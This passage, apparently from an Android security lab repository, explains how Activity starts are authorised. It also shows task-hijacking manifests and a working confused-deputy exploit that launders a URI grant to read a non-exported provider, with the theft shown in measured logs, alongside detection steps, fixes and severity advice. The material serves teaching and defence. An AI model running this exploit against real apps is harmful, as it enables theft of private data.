> when `ActivityStack` was folded into `Task` and `ActivityDisplay` became `TaskDisplayArea`. Method
> names below are given because they are stable enough to navigate by. **No line numbers appear
> anywhere in this repository**, and you should expect to `grep` rather than to jump. If a name below
> does not exist in the branch you are reading, search for the string constants instead — those
> survive renames.

### 4.2 One complete path: `startActivity` to a running Activity

#### Step 1 — the app side, `Activity.java`

```java
// frameworks/base/core/java/android/app/Activity.java  (illustrative excerpt)
public void startActivity(Intent intent) {
    this.startActivity(intent, null);
}

public void startActivityForResult(Intent intent, int requestCode, Bundle options) {
    if (mParent == null) {
        options = transferSpringboardActivityOptions(options);
        Instrumentation.ActivityResult ar =
            mInstrumentation.execStartActivity(
                this, mMainThread.getApplicationThread(), mToken, this,
                intent, requestCode, options);
        ...
    }
}
```

Two arguments matter for security. `mToken` is the `IBinder` identifying *this* Activity's
`ActivityRecord` inside `system_server` — it is how the system knows which task you are in, and an
app cannot fabricate one. `requestCode` is what creates the result channel: `startActivity` passes
`-1`, and a `requestCode` of `-1` is exactly what makes `getCallingActivity()` return `null` in the
callee. **That single default is the whole mechanism behind the identity table in §3.6.**

#### Step 2 — the funnel, `Instrumentation.java`

```java
// frameworks/base/core/java/android/app/Instrumentation.java  (illustrative excerpt)
public ActivityResult execStartActivity(
        Context who, IBinder contextThread, IBinder token, Activity target,
        Intent intent, int requestCode, Bundle options) {
    ...
    int result = ActivityTaskManager.getService().startActivity(
            whoThread, who.getBasePackageName(), who.getAttributionTag(), intent,
            intent.resolveTypeIfNeeded(who.getContentResolver()), token,
            target != null ? target.mEmbeddedID : null, requestCode, 0, null, options);
    checkStartActivityResult(result, intent);
    ...
}
```

Every Activity start in the process passes through here, including starts made through a
`ContextWrapper`. That makes it the highest-value single hook point in the app, and it is why
`scripts/activity-trace.js` hooks the `Activity.startActivity` family rather than trying to enumerate
call sites in application code.

`checkStartActivityResult` is worth knowing by name: it turns the integer error code the system
returned into the exception you actually see. That is why a
`SecurityException: Permission Denial: starting Intent ...` has such a consistent shape across every
Android version — one method formats all of them.

#### Step 3 — the crossing

The call becomes a Binder transaction on `IActivityTaskManager`. The kernel stamps the sender's uid
and pid into the transaction; this is the unforgeable identity that
[25-Binder](../25-Binder/README.md) demonstrates cannot be faked, by trying three times and failing
identically each time. Inside `system_server`, the receiving thread reads it with
`Binder.getCallingUid()`.

#### Step 4 — `ActivityStarter.executeRequest`: the checks

```java
// frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java
// (illustrative shape; exact names and ordering vary by branch)
private int executeRequest(Request request) {
    ...
    // Resolve the Intent to a concrete component via PackageManager.
    ResolveInfo rInfo = mSupervisor.resolveIntent(intent, resolvedType, userId, ...);
    ActivityInfo aInfo = mSupervisor.resolveActivity(intent, rInfo, startFlags, ...);
    ...
    // The export + permission decision, made against the CALLER's identity.
    boolean abort = !mSupervisor.checkStartAnyActivityPermission(
            intent, aInfo, resultWho, requestCode, callingPid, callingUid,
            callingPackage, callingFeatureId, request.ignoreTargetSecurity,
            inTask != null, callerApp, resultRecord, resultRootTask);
    ...
}
```

This is the boundary drawn in §2.3. `checkStartAnyActivityPermission` is where `exported="false"`
becomes a refusal and where `android:permission` on the `<activity>` is enforced. It is the *only*
authorisation the platform performs on an app's behalf, and it is performed with an identity the
caller could not have supplied.

The `SecurityException` it produces, measured on the device:

```text
# host — adb shell runs as uid 2000, which is PRIVILEGED, and is still refused
# measured — Redmi M2101K6P, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.victim/.InternalActivity"
java.lang.SecurityException: Permission Denial: starting Intent {
    flg=0x10000000 cmp=com.pentest.ch30.victim/.InternalActivity }
    from null (pid=22016, uid=2000) not exported from uid 10311
```

Read the last clause: **`not exported from uid 10311`**. The message names the *owner's* uid, which
is free reconnaissance — the same property [25-Binder](../25-Binder/README.md) records for refused
Binder calls, that a denial often leaks more than a success does.

#### Step 5 — `startActivityUnchecked`: where the task is chosen

Having decided that the start is permitted, `ActivityStarter` decides *where* it goes. The relevant
methods, by name:

| Method | What it decides |
|---|---|
| `setInitialState(...)` | Records the caller's `ActivityRecord`, recovered from `mToken`, so that "the caller's task" is a known thing. |
| `computeLaunchingTaskFlags()` | Adds `FLAG_ACTIVITY_NEW_TASK` where it is implied — notably when there is no source Activity at all, which is exactly the `adb shell am` case of §3.3. |
| `getReusableTask()` | **The affinity lookup.** For a `NEW_TASK` / `singleTask` / `singleInstance` start, searches the display's tasks for one whose affinity matches the record's. This is the method the classic hijack has to fool, and §3.7 shows why it can no longer be fooled on the measured device. |
| `recycleTask(...)` | The reuse path: `CLEAR_TOP`, `CLEAR_TASK`, and `singleTask`'s destroy-everything-above behaviour. |
| `setNewTask(...)` | Creates a `Task` and seeds its `affinity` and `rootAffinity` from the root `ActivityRecord`. |
| `deliverNewIntent(...)` | Schedules `onNewIntent` on an existing instance instead of constructing a new one. |

The measured behaviours of §3.4 map onto this list exactly. `standard` never reaches
`deliverNewIntent`, which is why three starts produced three `identityHashCode`s. `singleTop` reaches
it only when the top of the target task is already the target component, which is why the fourth
`BetaActivity` start built a new instance. `singleTask` reaches `recycleTask`, and that is where the
stack shrank from four entries to three.

#### Step 6 — `ActivityRecord`, and the uid prefix

The effective affinity measured in §3.7 is a property of the `ActivityRecord`, not of the manifest.
`ActivityInfo.taskAffinity` — the parsed manifest value — holds the bare string the developer wrote.
The `ActivityRecord`'s own task affinity is derived from it inside
`frameworks/base/services/core/java/com/android/server/wm/ActivityRecord.java`, with the declaring
application's uid prefixed, so that two applications cannot produce the same string.

You can confirm that the transformation is a runtime one without reading a line of source, which is
the cleanest possible demonstration:

```text
# host — what the MANIFEST says (static, from the APK)
$ aapt2 dump xmltree --file AndroidManifest.xml hijacker.apk | grep -A1 taskAffinity
    A: android:taskAffinity(0x01010010)="com.pentest.ch30.victim" (Raw: "com.pentest.ch30.victim")

# host — what the SYSTEM did with it (runtime)
# measured — Redmi, Android 11 / API 30
$ adb shell "dumpsys activity activities" | grep -A1 HijackActivity
      * Hist #0: ActivityRecord{195b71a u0 com.pentest.ch30.attacker/.HijackActivity t289}
          taskAffinity=10312:com.pentest.ch30.victim
```

Same install, same attribute, two different strings. **A static tool sees the first and can only
guess at the second.** That gap is the reason `scripts/task-affinity-map.py` exists, and the reason
this chapter's contribution is a runtime view rather than a second manifest audit.

#### Step 7 — back across the boundary, into the app

`system_server` sends a `LaunchActivityItem` transaction. `ActivityThread.handleLaunchActivity`
constructs the Activity object, calls `attach()` — which is what makes `getTaskId()`,
`isTaskRoot()` and `getCallingActivity()` work at all — and then
`Instrumentation.callActivityOnCreate` calls your `onCreate`.

By this point the caller's Binder identity is two processes and a separate transaction away, which is
the code-level answer to §3.6 and to the measurement that showed `Binder.getCallingUid()` and
`Process.myUid()` returning the same number.

### 4.3 The tapjacking path, traced

```java
// frameworks/base/core/java/android/view/View.java  (illustrative excerpt)
public boolean onFilterTouchEventForSecurity(MotionEvent event) {
    //noinspection RedundantIfStatement
    if ((mViewFlags & FILTER_TOUCHES_WHEN_OBSCURED) != 0
            && (event.getFlags() & MotionEvent.FLAG_WINDOW_IS_OBSCURED) != 0) {
        // Window is obscured, drop this touch.
        return false;
    }
    return true;
}
```

Four things follow from those five lines, and each answers a question testers actually ask.

1. **The condition is an `AND`.** Both the view flag and the event flag must be set. An app that
   never calls `setFilterTouchesWhenObscured(true)` fails the first condition, so the method always
   returns `true` and the touch is delivered — silently, with no log and no signal to the user.
2. **The flag lives on `View`, so the control is per-view.** `FILTER_TOUCHES_WHEN_OBSCURED` is a bit
   in one view's `mViewFlags`. Setting it on a root view does not set it on a `Dialog`'s decor view,
   nor on a view added later to a different window.
3. **`FLAG_WINDOW_IS_OBSCURED` is set by the system**, in `system_server`, during input dispatch,
   from the window hierarchy `WindowManagerService` holds. The app cannot set it, cannot clear it,
   and cannot be lied to about it. That makes it a **trustworthy** signal — tier 2 in the language of
   §3.6 — which is unusual enough to be worth valuing.
4. **The decision is made per event, at dispatch time.** An overlay that appears between
   `ACTION_DOWN` and `ACTION_UP` produces a mixed sequence, which is exactly why
   `scripts/activity-trace.js` prints one line per event rather than one line per gesture.

### 4.4 Where the laundered grant is actually issued

The confused-deputy chain of §5.3 ends in code that has nothing to do with Activities, and knowing
where it ends is what lets you explain the finding correctly to a developer.

When `ActivityStarter` processes a start whose Intent carries `FLAG_GRANT_READ_URI_PERMISSION`, it
asks `UriGrantsManagerService`
(`frameworks/base/services/core/java/com/android/server/uri/UriGrantsManagerService.java`) to check
and record a grant. The check asks two questions: *does the calling uid have permission to read this
URI*, and *does the target provider permit grants at all*. Both are answered **about the deputy**,
because the deputy is the caller. The grant is then recorded **for the target component's uid** —
which the attacker chose.

That is the entire bug in one sentence: **the permission question is asked about the caller, and the
answer is handed to the target; a deputy lets an attacker control the target while remaining the
caller.**

What the grant is worth once issued — its lifetime, persistability, prefix semantics, and how to
enumerate live grants on a device — is
[27-ContentProviders §5.4](../27-ContentProviders/README.md)'s material and is not repeated here.

---

## 5. Security Perspective

### 5.1 The taxonomy

Every Activity finding in this repository belongs to one of six families. Learning the families
matters more than learning individual bugs, because a family tells you what evidence you owe.

| # | Family | The primitive | What you must demonstrate | Section |
|---|---|---|---|---|
| 1 | **Confused deputy** | an exported Activity forwards an Intent the caller supplied | that a component or a URI you could not reach directly becomes reachable | §5.3 |
| 2 | **Task hijacking** | an attacker's Activity joins or captures the victim's task | that the *user* sees the attacker's UI when they asked for the victim's | §5.2 |
| 3 | **Mixed-package task** | a cross-app start without `FLAG_ACTIVITY_NEW_TASK` | that Back walks from the victim's screen to the attacker's | §3.8 |
| 4 | **Tapjacking / overlay** | a `FLAG_NOT_TOUCHABLE` overlay above a consequential control | that the obscured touch was accepted, and what it did | §5.5 |
| 5 | **Result-channel abuse** | `onActivityResult` treats an attacker's Intent as trusted | that the value reaches a decision or a sink | §5.6 |
| 6 | **Over-exposed screen** | `exported`, `showWhenLocked`, `allowEmbedded`, weak `permission` | that an unprivileged app (not `adb shell`) can reach it, and that reaching it matters | §5.7 |

> **Pentester's Note — the discipline that keeps findings alive**
> Families 1, 3, 5 and 6 all need the same two proofs, and reports that skip either get closed:
>
> 1. **Reachability from an unprivileged app.** `adb shell` runs as uid 2000, which holds
>    permissions no third-party app holds. "I reached it with `am start`" is not reachability.
>    Write the five-line attacker app.
> 2. **A demonstrated consequence.** An exported Activity is a *precondition*. A crash is not a
>    consequence, though it is an excellent sign that the component accepted your input and
>    dereferenced it — add the extra it wanted and go further.
>
> Families 2 and 4 need a third proof that the others do not: **a screenshot**. Both are attacks on
> what a human believes, and a task id in a dump does not establish that a person would have been
> fooled.

### 5.2 Task hijacking — the StrandHogg class

#### The vulnerable configuration

There is no vulnerable *code*. The attack is two attributes in the attacker's manifest, aimed at a
victim whose only mistake is not having set a third:

```xml
<!-- The ATTACKER's manifest. This is the entire payload. -->
<activity android:name=".HijackActivity"
    android:taskAffinity="com.pentest.ch30.victim"
    android:launchMode="singleTask">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

```xml
<!-- The VICTIM's manifest. Note what is ABSENT: android:taskAffinity="". -->
<activity android:name=".MainActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

#### Why a competent developer produces the victim side

They do not produce it; they inherit it. `taskAffinity` defaults to the package name, so the victim's
task is named `com.pentest.ch30.victim` **without anybody writing a line**. Almost no Android
developer has ever read the `taskAffinity` documentation, and there is no reason they should have —
the default is correct for the only thing it visibly affects, which is that an app's own screens
share one task.

The attacker side, meanwhile, is chosen deliberately and is trivially cheap: two attributes, no code,
no permissions, no exploit.

#### The intended mechanism



The elegance, from an attacker's point of view, is that the victim app is never touched. It is not
modified, not repackaged, not exploited. The attacker changes what the *task graph* looks like, and
the user's belief follows the task graph.

#### The measured outcome — this does not work on the tested device

Both apps were built, installed, and run. Attacker uid 10312, victim uid 10311.

```text
# host — step 1: arm the attack, exactly as the user tapping its icon would
# measured — Redmi M2101K6P, Android 11 / API 30, MIUI 12.5, patch 2021-12-01
$ adb shell "am start -a android.intent.action.MAIN -c android.intent.category.LAUNCHER \
      -n com.pentest.ch30.attacker/.HijackActivity"

    * Task{2a5124b #289 ... A=10312:com.pentest.ch30.victim ... sz=1}
      * Hist #0: ActivityRecord{195b71a u0 com.pentest.ch30.attacker/.HijackActivity t289}
          taskAffinity=10312:com.pentest.ch30.victim

# host — step 2: the user taps the VICTIM
$ adb shell "am start -a android.intent.action.MAIN -c android.intent.category.LAUNCHER \
      -n com.pentest.ch30.victim/.MainActivity"

    * Task{54df082 #290 ... A=10311:com.pentest.ch30.victim ... sz=1}   <- a NEW task
      * Hist #0: ActivityRecord{9f0dfcd u0 com.pentest.ch30.victim/.MainActivity t290}
    * Task{2a5124b #289 ... A=10312:com.pentest.ch30.victim ... sz=1}   <- attacker's, untouched
      * Hist #0: ActivityRecord{195b71a u0 com.pentest.ch30.attacker/.HijackActivity t289}

  ResumedActivity: ActivityRecord{9f0dfcd u0 com.pentest.ch30.victim/.MainActivity t290}
```

**The attack failed, and the reason is legible in the dump.** The attacker declared
`taskAffinity="com.pentest.ch30.victim"`; the platform stored `10312:com.pentest.ch30.victim`. The
victim's own Activity has `10311:com.pentest.ch30.victim`. `getReusableTask()` compares those two
strings, they differ, and a fresh task is created. §3.7 explains the mechanism; this is the outcome.

#### The `allowTaskReparenting` variant — also measured, also failed

The second historical variant does not capture the task up front. It gets the attacker's Activity
started *inside* some task and then asks the system to move it into a matching one when that task
comes forward:

```xml
<activity android:name=".ReparentActivity"
    android:taskAffinity="com.pentest.ch30.victim"
    android:allowTaskReparenting="true"/>
```

Tested separately, because the two variants are handled by different code and could have been
mitigated independently:

```text
# measured — Redmi, Android 11 / API 30
# ReparentActivity started, then everything backgrounded, then the victim brought forward.

    * Task{e0e9b9b #291 ... A=10311:com.pentest.ch30.victim ... sz=2}
      * Hist #1: ActivityRecord{c40b5ca u0 com.pentest.ch30.victim/.MainActivity t291}
      * Hist #0: ActivityRecord{e1553aa u0 com.pentest.ch30.victim/.MainActivity t291}
    * Task{f8d530e #293 ... A=10312:com.pentest.ch30.victim ... sz=1}
      * Hist #0: ActivityRecord{3954509 u0 com.pentest.ch30.attacker/.ReparentActivity t293}

  ResumedActivity: ActivityRecord{c40b5ca u0 com.pentest.ch30.victim/.MainActivity t291}
```

No reparenting occurred. The attacker's Activity stayed in its own task, for the same reason: the
affinities that reparenting matches on are namespaced, so nothing matches.

> **Warning — what this result does and does not license you to say**
> It licenses: *"On the tested device (Redmi M2101K6P, Android 11 / API 30, MIUI 12.5, patch
> 2021-12-01) the classic `taskAffinity` + `singleTask` hijack and the `allowTaskReparenting` variant
> both failed, because effective task affinities are namespaced with the declaring app's uid."*
>
> It does **not** license: *"Task hijacking was fixed in Android N."* This chapter tested one device
> from one OEM. It did not establish the AOSP version at which namespacing appeared, it did not test
> a device without it, and a fleet in the field contains devices far older than this one. The
> repository's own history contains a version claim that was carried forward from memory and was
> wrong; do not add another. **Run `scripts/task-affinity-map.py --check` on the device in the
> engagement and report that.**

#### Detection

**Statically, in the attacker's APK** — this is malware triage, not an app audit:

```bash
# host — the two-attribute signature, in a decoded manifest
aapt2 dump xmltree --file AndroidManifest.xml suspect.apk \
  | grep -B4 -A4 -E 'taskAffinity|launchMode|allowTaskReparenting'

# host — the finding shape: an affinity naming a package that is NOT this APK's
apktool d -f -o work suspect.apk
grep -oE 'android:taskAffinity="[^"]*"' work/AndroidManifest.xml | sort -u
grep -oE 'package="[^"]*"' work/AndroidManifest.xml | head -1
```

**Statically, in the victim's APK** — this is the app audit, and it is
[32-Manifest](../32-Manifest/README.md)'s job. The finding is the *absence* of
`android:taskAffinity=""`, which is a hardening recommendation whose severity depends entirely on the
namespacing verdict.

**Dynamically, on the device** — this chapter's contribution:

```bash
# host — the runtime view, and the mitigation verdict
python3 -B scripts/task-affinity-map.py --recents
```

On the lab device that reports, among other things:

```text
[INFO  ] AFFINITY-SQUAT   (task 318)
   com.pentest.ch30.attacker/...HijackActivity declares an affinity naming
   'com.pentest.ch30.victim', which is not its own package. launchMode=singleTask.
   The platform uid-namespaces affinities, so this cannot collide with
   com.pentest.ch30.victim's own task -- the declaration is still worth reporting
   as INTENT, but it is not a working attack here.
```

Note the severity: **INFO, not HIGH**, because the platform blocks it. The same finding on a
non-namespacing device is reported at HIGH by the same tool. A scanner that reports a fixed issue at
HIGH teaches its users to skim its output, and this repository would rather be believed.

#### The exploit, as a repeatable procedure

`labs/lab-02-task-hijacking.md` is the full version with success criteria. In outline:

1. Build both apps: `examples/build.sh --install`.
2. Record the baseline: `python3 -B scripts/task-affinity-map.py --check`.
3. Arm: launch `com.pentest.ch30.attacker/.HijackActivity` once.
4. Trigger: launch the victim from the launcher.
5. Look at the screen. **Red means hijacked; white means not.**
6. Corroborate with `dumpsys activity activities` and compare task ids.

#### The fix, as code

```xml
<!-- The single best fix, one attribute, applied app-wide. -->
<application android:taskAffinity="">
    ...
</application>
```

That removes every affinity string from the app, so there is nothing for an attacker to name. It
costs nothing on an app whose screens all live in one task, because with no affinity they still stay
together — they are started into each other's task without `FLAG_ACTIVITY_NEW_TASK`, which does not
consult affinity at all (§3.3).

If app-wide is too blunt, the launcher Activity alone is the high-value target:

```xml
<activity android:name=".MainActivity"
    android:exported="true"
    android:taskAffinity=""
    android:launchMode="singleTask">
```

Two further options, with honest caveats:

| Option | Effect | Caveat |
|---|---|---|
| `android:launchMode="singleInstance"` on the launcher | The Activity is alone in its own task, so nothing of the attacker's can be in it | Serious UX consequences (§3.4); rarely acceptable. |
| An `onResume` check that the task's root belongs to this app | Detective control | Fragile and bypassable — and it cannot see a task the attacker rooted before your Activity existed. Use as defence in depth, never as the fix. |

#### Real-world grounding, stated carefully

| Item | What it is | How to verify it yourself |
|---|---|---|
| "Towards Discovering and Understanding Task Hijacking in Android" — Ren, Zhang, Wang, Chen, Mao, **USENIX Security 2015** | The systematic academic study that named and classified the whole family, including the affinity and reparenting variants. | The USENIX proceedings are public; read it before writing about this class. |
| **"StrandHogg"** — Promon vendor disclosure, 2019 | In-the-wild exploitation of the 2015 paper's affinity variant, against banking apps. | Vendor publication; treat the marketing name as a label for a class, not a single bug. |
| **"StrandHogg 2.0"** — Promon, 2020, tracked as **CVE-2020-0096** | A *code-based* variant that does not need a manifest declaration at all, so it is invisible to every manifest scanner. Patched via the Android Security Bulletin. | **Check the ID and the affected-version range in the Android Security Bulletin for May 2020 before you cite it in a report.** A bulletin entry is the authoritative record; a blog post is not. |

> **Warning**
> The 2.0 variant matters for a reason that outlives the specific bug: it demonstrated that **the
> manifest is not the whole attack surface for task attacks.** A checklist that greps for
> `taskAffinity` and stops has already missed one published family. This is a live argument for
> preferring the runtime view.

### 5.3 The deputy Activity — reachability and grant laundering

This is the section where 26, 27 and 30 meet, so it is worth being precise about who owns what.
[26-Intent §5.2](../26-Intent/README.md) owns the **redirection primitive** — an Intent taken out of
an extra and started — and its taxonomy. [27-ContentProviders §5.4](../27-ContentProviders/README.md)
owns what a laundered **grant** is worth. This section owns the **deputy**: why an *Activity* is the
component that ends up holding and lending the privilege, and what that costs, demonstrated
end to end.

#### The vulnerable code

```java
// examples/DeputyActivity.java — the whole bug is three lines
public class DeputyActivity extends Activity {
    public static final String EXTRA_NEXT = "next";

    @Override protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent next = getIntent().getParcelableExtra(EXTRA_NEXT);   // attacker's object
        if (next != null) {
            startActivity(next);                                    // ...started AS US
        }
        finish();
    }
}
```

declared, as it always is, as an ordinary exported entry point:

```xml
<activity android:name=".DeputyActivity" android:exported="true">
    <intent-filter>
        <action android:name="com.pentest.ch30.victim.FORWARD"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

#### Why a competent developer writes this

Because the feature request is reasonable and the implementation is the obvious one. *"After the user
finishes the login flow, send them back where they came from — the notification, the deep link, the
widget, whatever."* An `Intent` is `Parcelable`, so it is the natural carrier for "where they came
from". The pattern appears in production apps constantly and it is not, in itself, wrong. What is
wrong is that the component is exported and the destination is never checked.

The cast to `Intent` looks like validation and is not. It validates the *type*, not the *content*:
an Intent naming `com.attacker/.GrantSinkActivity` casts exactly as happily as one naming
`.InternalActivity`.

#### Prize 1: reachability — measured

The victim declares an Activity nobody else may start:

```xml
<activity android:name=".InternalActivity" android:exported="false"/>
```

The control, first, because without it the rest proves nothing:

```text
# host — adb shell is uid 2000 and PRIVILEGED, and is still refused
# measured — Redmi, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.victim/.InternalActivity"
java.lang.SecurityException: Permission Denial: starting Intent {
    flg=0x10000000 cmp=com.pentest.ch30.victim/.InternalActivity }
    from null (pid=22016, uid=2000) not exported from uid 10311
```

Now the same component, through the deputy:

```text
# host — the attacker app builds a nested Intent and sends it to the deputy
# measured — Redmi, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.attacker/.DeputyExploitActivity --es mode reach"

I CH30 : EXPLOIT mode=reach outer=Intent { act=com.pentest.ch30.victim.FORWARD
         pkg=com.pentest.ch30.victim (has extras) }
         inner=Intent { cmp=com.pentest.ch30.victim/.InternalActivity }
I CH30 : DeputyActivity forwarding: Intent { cmp=com.pentest.ch30.victim/.InternalActivity }
I CH30 : onCreate InternalActivity taskId=299 instance=25596899 callingActivity=null
I CH30 : InternalActivity REACHED -- exported=false, so the starter had this app's identity.
```

Nothing about `InternalActivity` changed between the two runs. Its manifest entry is identical, the
platform's check is identical, and the check was performed both times. **The only thing that changed
is who asked.**

> **Warning**
> A very common counter-argument from developers is "but that Activity is harmless, it just shows a
> screen." Sometimes true. But `exported="false"` is frequently the *only* control on screens that
> assume they are unreachable — an admin panel, a debug menu, a "you are already authenticated"
> landing page that skips the login check because it could only be reached from inside. The right
> question is not "is this screen sensitive" but "what did the developer assume was true because
> only their own code could start it".

#### Prize 2: grant laundering — measured end to end

The victim also ships a provider that no other app may touch:

```xml
<provider android:name=".SecretProvider"
    android:authorities="com.pentest.ch30.victim.secrets"
    android:exported="false"
    android:grantUriPermissions="true"/>
```

`exported="false"` is doing its job. `grantUriPermissions="true"` is the capability the deputy gives
away.

The payload is a nested Intent aimed at the **attacker's own** Activity, carrying the **victim's**
URI and the grant flag:

```java
// examples/hijacker-app/DeputyExploitActivity.java — the essential lines
Intent inner = new Intent();
inner.setComponent(new ComponentName(this, GrantSinkActivity.class));  // OUR sink
inner.setData(Uri.parse("content://com.pentest.ch30.victim.secrets/secret/1"));
inner.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
inner.addFlags(Intent.FLAG_ACTIVITY_FORWARD_RESULT);   // costs one line; see 3.10

Intent outer = new Intent("com.pentest.ch30.victim.FORWARD");
outer.setPackage("com.pentest.ch30.victim");
outer.putExtra("next", inner);                          // the key line
startActivity(outer);
```

Two details people get wrong when reproducing this. **The URI goes in `setData()`, not in an extra**
— `FLAG_GRANT_*` applies to `getData()` and to `getClipData()` and to nothing else. And **the
component must be the attacker's** — aiming the grant at one of the victim's own screens issues a
grant the victim already had.

The full measured run, control and exploit together:

```text
# host
# measured — Redmi M2101K6P, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.attacker/.DeputyExploitActivity --es mode grant"
$ adb shell "logcat -d -s CH30:I"

# CONTROL — the attacker queries the provider directly, as itself:
I CH30 : EXPLOIT control OK: direct query DENIED (Permission Denial: opening provider
         com.pentest.ch30.victim.SecretProvider from ProcessRecord{... 
         com.pentest.ch30.attacker/u0a312} (pid=22309, uid=10312)
         that is not exported from UID 10311)

# THE SEND — note flg=0x2000001 = FLAG_GRANT_READ_URI_PERMISSION | FLAG_ACTIVITY_FORWARD_RESULT
I CH30 : EXPLOIT mode=grant outer=Intent { act=com.pentest.ch30.victim.FORWARD
         pkg=com.pentest.ch30.victim (has extras) }
         inner=Intent { dat=content://com.pentest.ch30.victim.secrets/secret/1
                        flg=0x2000001 cmp=com.pentest.ch30.attacker/.GrantSinkActivity }

# THE DEPUTY FORWARDS IT, as the victim
I CH30 : DeputyActivity forwarding: Intent { dat=content://com.pentest.ch30.victim.secrets/secret/1
         flg=0x2000001 cmp=com.pentest.ch30.attacker/.GrantSinkActivity }

# THE SINK IS REACHED, AND THE PROVIDER SERVES THE ATTACKER'S UID
I CH30 : SINK reached. data=content://com.pentest.ch30.victim.secrets/secret/1 flags=0x2000001
I CH30 : SecretProvider.query uri=content://com.pentest.ch30.victim.secrets/secret/1
         callingUid=10312 callingPackage=com.pentest.ch30.attacker
I CH30 : SINK STOLE: CH30{the_deputy_handed_you_a_grant_it_never_meant_to_give}
```

Read the second-to-last line twice. `SecretProvider.query` is logging
`Binder.getCallingUid()` — the **kernel-stamped, unforgeable** identity of the caller — and it says
**10312**, the attacker. A provider declared `exported="false"` was read by a uid that the platform
had refused, by name, four log lines earlier.

#### The grant's lifetime — also measured

```text
# host — start the sink again on its own, with no deputy involved
# measured — Redmi, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.attacker/.GrantSinkActivity"
I CH30 : SINK reached. data=null flags=0x10000000
I CH30 : SINK DENIED: Permission Denial: opening provider ... (uid=10312)
         that is not exported from UID 10311
```

The grant did **not** persist. A plain `FLAG_GRANT_READ_URI_PERMISSION` grant is scoped to the
receiving component's lifetime, so it evaporated when the sink finished. That is a real and useful
limit, and it is also why `FLAG_GRANT_PERSISTABLE_URI_PERMISSION` plus
`takePersistableUriPermission()` is the escalation an attacker reaches for next — see
[27-ContentProviders](../27-ContentProviders/README.md), which owns that ground.

#### The fix, and the half-fixes that fail

The rule is one sentence: **the destination must be decided by the deputy; the caller supplies only a
selector.**

```java
// examples/DeputyActivityFixed.java — the essential shape
private static final Map<String, Class<?>> DESTINATIONS;   // closed, built at compile time
static {
    Map<String, Class<?>> m = new HashMap<>();
    m.put("home", MainActivity.class);
    m.put("internal", InternalActivity.class);
    DESTINATIONS = Collections.unmodifiableMap(m);
}

@Override protected void onCreate(Bundle b) {
    super.onCreate(b);
    String dest = getIntent().getStringExtra("dest");        // a STRING, never an Intent
    Class<?> target = dest == null ? null : DESTINATIONS.get(dest);
    if (target == null) { setResult(RESULT_CANCELED); finish(); return; }   // fail CLOSED
    Intent next = new Intent(this, target);                  // built HERE, from a class literal
    next.setFlags(Intent.FLAG_ACTIVITY_NO_HISTORY);          // nothing carried across
    startActivity(next);
    finish();
}
```

Measured against the identical payload:

```text
# measured — Redmi, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.attacker/.DeputyExploitActivity --es mode fixed"
I CH30 : EXPLOIT control OK: direct query DENIED (...)
I CH30 : EXPLOIT mode=fixed outer=... inner=Intent { dat=content://...secrets/secret/1
         flg=0x2000001 cmp=com.pentest.ch30.attacker/.GrantSinkActivity }
I CH30 : DeputyActivityFixed forwarding to allow-listed com.pentest.ch30.victim.InternalActivity
I CH30 : onCreate InternalActivity taskId=303 ...
```

The nested Intent was never read. No sink, no grant, no theft.

> **Warning — read the last line of that capture honestly**
> `InternalActivity` was still reached, because `"internal"` is on the allow-list and the attacker
> supplied that selector. **Allow-listing a non-exported screen makes that screen reachable by
> anyone who can reach the deputy.** The fix removes arbitrary redirection and grant laundering; it
> does not, by itself, decide whether a given destination *should* be reachable from outside. That
> is a second question, and a review that stops at "we allow-listed it" has answered only the first.
> Two allow-list entries deserve two arguments.

Why the obvious half-fixes fail — each of these appears in real remediation commits:

| Half-fix | Why it fails |
|---|---|
| "I check `next.getComponent() != null`." | The attacker sets a component. Theirs. |
| "I check `next.getPackage()` equals my package." | `setPackage()` restricts *resolution*, not the component. Worse: `getPackage()` is `null` on an Intent that only sets a `ComponentName`, so the check is skipped entirely on the exact input that matters. |
| "I check the *component's* package is mine." | Better, and still confused-deputy reachability against every one of your own non-exported screens. It also does nothing about the flags: a `FLAG_GRANT_READ_URI_PERMISSION` aimed at your own Activity still issues a grant, and your own Activity may pass the URI onward. |
| "I strip `FLAG_GRANT_*` and forward it." | Better again, and still an open redirect to any of your screens, carrying an attacker-authored `Bundle` into them. |
| "I check the data URI's scheme." | The component wins over the data. You checked the wrong field. |

The platform's own answer, from API 35, is `android:requireContentUriPermissionFromCaller` on the
`<activity>` — it requires the *caller* to already hold read/write permission on any `content://` URI
in the Intent, which kills the laundering path at the source. Recommend it where the target API
allows.

### 5.4 Honest severity

This is the section that decides whether your report is believed, and it is the one most write-ups of
this material skip.

#### Task hijacking and tapjacking require the attacker's app to be installed already

Say it in the report, in those words. Both attacks in this chapter's headline families are **local**:
they presuppose that a malicious application is on the device, has been installed by the user, and
(for tapjacking) has been granted a permission through a Settings screen. An attacker who has
achieved all that has already cleared a substantial bar.

That is not a reason to dismiss the class. It *is* a reason to rate it correctly:

| Scenario | Realistic rating | Reasoning |
|---|---|---|
| Banking app, no `taskAffinity=""`, on a fleet of devices measured as **not** namespacing | **Medium** — occasionally High | Working credential-phishing primitive, but requires a malicious install. Raise it if the app's threat model explicitly includes a compromised device, or if the app is distributed to a population known for sideloading. |
| Same app, on devices measured as namespacing | **Low / Informational** | The hardening is still correct and still worth recommending, but the attack does not work. Rating it High because a scanner said `taskAffinity` is not set is how a report loses credibility. |
| Exported deputy that launders a URI grant on a provider holding session tokens | **High** | No installed-malware precondition beyond "any app", the deputy is reachable by every app on the device, and the consequence is direct data theft. Demonstrated, with a control. |
| Same deputy, but the reachable destinations are three harmless screens and there is no provider | **Low** | An open redirect with no demonstrated consequence. Report it as a hardening item and say what would raise it. |
